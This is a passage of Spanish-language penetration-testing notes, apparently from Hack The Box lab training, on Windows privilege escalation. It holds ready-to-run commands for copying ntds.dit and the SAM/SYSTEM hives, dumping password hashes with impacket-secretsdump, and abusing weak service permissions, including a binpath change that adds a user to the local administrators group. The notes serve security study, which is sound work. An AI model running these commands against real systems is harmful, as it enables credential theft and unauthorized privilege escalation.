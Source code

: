 - `Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit`
#### Copiando los registros SAM y SYSTEM
- Este privilegio también nos permite copiar los registros SAM y SYSTEM. Lo cual nos permite extraer credenciales de los usuarios mediante impacket-secretsdump.

```
C:\htb> reg save HKLM\SYSTEM SYSTEM.SAV

The operation completed successfully.


C:\htb> reg save HKLM\SAM SAM.SAV

The operation completed successfully.
``` 

#### Extrayendo los hashes
- `impacket-secretsdump -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL`

### Usando robocopy para copiar archivos
- Robocopy es un programa de Windows que nos permite copiar archivos de manera recursiva.
- `C:\htb> robocopy /B E:\Windows\NTDS .\ntds ntds.dit`

## Abusar de servicios con permisos debiles mediante su binary path
- Muchas veces los servicios corren con permisos debiles y podemos abusar de esto cambiando el path de su binario.
- Para enumearar podemos utilizar SharpUp.
    - `PS C:\htb> .\SharpUp.exe audit`
- También podemos enumerar esto con PowerUp de PowerShell.
    - `Import-Module .\PowerUp.ps1`
    - `Get-ModifiableServiceFile`
### Reemplazando el binario de un servicio

```
C:\htb> cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"
C:\htb> sc start SecurityService
```

### Cambiando el path binario de un servicio
- `C:\htb> sc config WindscribeService binpath="cmd /c net localgroup administrators USER /add"`
- `sc stop WindscribeService`
- `sc start WindscribeService`
- `net localgroup administrators`

## Enumerar servicios ejecutandose
- `get-process`: Enumera los procesos que se estan ejecutando.
    - `get-process -Id <pid>`: Enumera el proceso con el id especificado.
- `get-service`: Enumera los servicios que se estan ejecutando.
- `Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}`: Enumera los servicios que se estan ejecutando.
- `icacls C:\Windows\System32\spoolsv.exe`: Enumera los permisos del archivo spoolsv.exe.
